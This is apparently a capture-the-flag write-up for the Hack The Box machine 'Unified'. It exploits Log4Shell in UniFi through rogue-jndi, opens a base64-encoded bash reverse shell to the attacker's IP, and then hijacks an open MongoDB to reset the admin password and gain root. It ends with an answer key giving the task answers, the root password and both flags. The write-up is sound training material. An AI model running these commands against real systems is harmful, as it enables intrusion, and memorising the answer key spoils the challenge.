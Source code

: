 ```yaml
---
layout: single
title: Unified - Hack The Box
excerpt: "We are exploiting the Log4Shell vulnerability (CVE-2021-44228) on this machine and taking advantage of MongoDB misconfiguration."
date: 2025-03-18
classes: wide
header:
  teaser: /img2/unified.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Very Easy
tags:
  - Log4Shell
  - MongoDB
---
```



![](/img2/Pasted%20image%2020250317194438.png)

## Introduction

> We are exploiting the Log4Shell vulnerability (CVE-2021-44228) on this machine and taking advantage of MongoDB misconfiguration.

## Reconnaissance

- Connectivity

```bash
ping -c1 10.129.87.49
```

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.129.87.49
```

![](/img2/Pasted%20image%2020250317194604.png)

- Version scan with nmap

```bash
nmap -sV -p22,6789,8080,8443,8843,8880 10.129.87.49
```

![](/img2/Pasted%20image%2020250317195906.png)

- Check the version of UniFi 

![](/img2/Pasted%20image%2020250318164539.png)

- Try to inject jndi malicious command

![](/img2/Pasted%20image%2020250318164643.png)

![](/img2/Pasted%20image%2020250318164709.png)

> If we have a connection the machine is vulnerable for Log4shell



```bash
java -jar ysoserial-modified.jar CommonsCollections3 bash 'bash -i >& /dev/tcp/10.10.16.34/9000 0>&1' > payload.ser
```

## Exploitation


- Exploit Log4shell vulnerability

```bash
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

- Check if LDAP server works

```bash
java -jar RogueJndi-1.1.jar --command 'whoami' --hostname 10.10.16.34
```

![](/img2/Pasted%20image%2020250319161543.png)

```bash
tcpdump -i tun0 port 389 -v
```

![](/img2/Pasted%20image%2020250319111549.png)

- Send reverse shell in base64

```bash
echo "bash -i >& /dev/tcp/10.10.16.34/9000 0>&1"|base64
```

```bash
java -jar RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMzQvOTAwMCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname 10.10.16.34
```

![](/img2/Pasted%20image%2020250319161543.png)

```bash
nc -nlvp 9000
```


## Post-exploitation

- See actual process

```bash
ps aux
```
![](/img2/Pasted%20image%2020250318230925.png)

- Connect to MongoDB without credentials

```bash
mongo --port 27117
```

```bash
show dbs
```

![](/img2/Pasted%20image%2020250318231102.png)

```bash
use ace
show collections
```

![](/img2/Pasted%20image%2020250318231303.png)

```bash
db.admin.find().forEach(printjson)
```

![](/img2/Pasted%20image%2020250318231439.png)

- Create SHA-512 password

```bash
mkpasswd -m sha-512 pass
```

- Change administrator password 

```bash
db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$6bm13IhH/uh7JzE.$BDesurCeAnw.uSQMDgVa6fGVK/G9w1WrOIkPPInm3eY86pkXJmts.aEpU6S5k34/ubTXZAq.pe4rXgTNPNlJc1"}})
```

![](/img2/Pasted%20image%2020250318230845.png)

- Check root password and connect with SSH

![](/img2/Pasted%20image%2020250318231944.png)

```bash
ssh root@10.129.2.168
```

## Tasks

1. Which are the first four open ports?
> 22,6789,8080,8443

2. What is the title of the software that is running running on port 8443?
> UniFi Network

3. What is the version of the software that is running?
> 6.4.54

4. What is the CVE for the identified vulnerability?
> CVE-2021-44228

5. What protocol does JNDI leverage in the injection?
> ldap

6. What tool do we use to intercept the traffic, indicating the attack was successful?
> tcpdump

7. What port do we need to inspect intercepted traffic for?
> 389

8. What port is the MongoDB service running on?
> 27117

9. What is the default database name for UniFi applications?
> ace

10. What is the function we use to enumerate users within the database in MongoDB?
> db.admin.find()

11. What is the function we use to update users within the database in MongoDB?
> db.admin.update()

12. What is the password for the root user?
> NotACrackablePassword4U2022

13. Submit user flag
> 6ced1a6a89e666c0620cdb10262ba127

14. Submit root flag
> e50bc93c75b634e4b272d2f771c33681


![](/img2/Pasted%20image%2020250318232724.png)